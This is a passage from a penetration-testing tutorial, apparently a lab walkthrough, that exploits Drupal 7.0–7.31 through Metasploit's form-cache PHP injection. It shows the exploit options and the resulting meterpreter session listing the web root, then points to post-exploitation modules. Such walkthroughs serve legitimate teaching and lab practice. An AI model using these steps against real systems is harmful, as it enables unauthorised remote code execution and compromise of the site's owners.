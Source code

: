 ````console
   --  ----
   0   Drupal 7.0 - 7.31 (form-cache PHP injection method)

````

Now let's set the options. RPORT, LHOST and LPORT looks fine as they are by default, so they won't be touched.
```console
msf > set RHOST 10.0.2.4
msf > set TARGETURI /drupal/
msf > exploit
meterpreter > ls
Listing: /var/www/html/drupal
=============================

Mode              Size   Type  Last modified              Name
----              ----   ----  -------------              ----
100644/rw-r--r--  174    fil   2011-07-27 16:17:40 -0400  .gitignore
100644/rw-r--r--  5410   fil   2011-07-27 16:17:40 -0400  .htaccess
100644/rw-r--r--  58875  fil   2011-07-27 16:17:40 -0400  CHANGELOG.txt
100644/rw-r--r--  996    fil   2011-07-27 16:17:40 -0400  COPYRIGHT.txt
100644/rw-r--r--  1447   fil   2011-07-27 16:17:40 -0400  INSTALL.mysql.txt
100644/rw-r--r--  1874   fil   2011-07-27 16:17:40 -0400  INSTALL.pgsql.txt
100644/rw-r--r--  1298   fil   2011-07-27 16:17:40 -0400  INSTALL.sqlite.txt
100644/rw-r--r--  17856  fil   2011-07-27 16:17:40 -0400  INSTALL.txt
100644/rw-r--r--  14940  fil   2011-02-23 19:47:51 -0500  LICENSE.txt
100644/rw-r--r--  7356   fil   2011-07-27 16:17:40 -0400  MAINTAINERS.txt
100644/rw-r--r--  3494   fil   2011-07-27 16:17:40 -0400  README.txt
100644/rw-r--r--  8811   fil   2011-07-27 16:17:40 -0400  UPGRADE.txt
100644/rw-r--r--  6605   fil   2011-07-27 16:17:40 -0400  authorize.php
100644/rw-r--r--  720    fil   2011-07-27 16:17:40 -0400  cron.php
040755/rwxr-xr-x  4096   dir   2011-07-27 16:17:40 -0400  includes
100644/rw-r--r--  529    fil   2011-07-27 16:17:40 -0400  index.php
100644/rw-r--r--  688    fil   2011-07-27 16:17:40 -0400  install.php
040755/rwxr-xr-x  4096   dir   2011-07-27 16:17:40 -0400  misc
040755/rwxr-xr-x  4096   dir   2011-07-27 16:17:40 -0400  modules
040755/rwxr-xr-x  4096   dir   2011-07-27 16:17:40 -0400  profiles
100644/rw-r--r--  1531   fil   2011-07-27 16:17:40 -0400  robots.txt
040755/rwxr-xr-x  4096   dir   2011-07-27 16:17:40 -0400  scripts
040755/rwxr-xr-x  4096   dir   2011-07-27 16:17:40 -0400  sites
040755/rwxr-xr-x  4096   dir   2011-07-27 16:17:40 -0400  themes
100644/rw-r--r--  18039  fil   2011-07-27 16:17:40 -0400  update.php
100644/rw-r--r--  2051   fil   2011-07-27 16:17:40 -0400  web.config
100644/rw-r--r--  417    fil   2011-07-27 16:17:40 -0400  xmlrpc.php
```

We are in!

# Post-Exploitation
**When you do have the meterpreter session, you can use the help command to see the
commands that you can run. Alternatively, you can run metasploits “post” modules to
execute additional functions. Post modules are used to execute further commands when
you have gained access into the system (which you have done). To see post modules for
linux you need to open a separate terminal and start metasploit again. At the “msf6>” prompt, you can then just enter “search post/linux”. For Windows you would search
“post/windows/”**
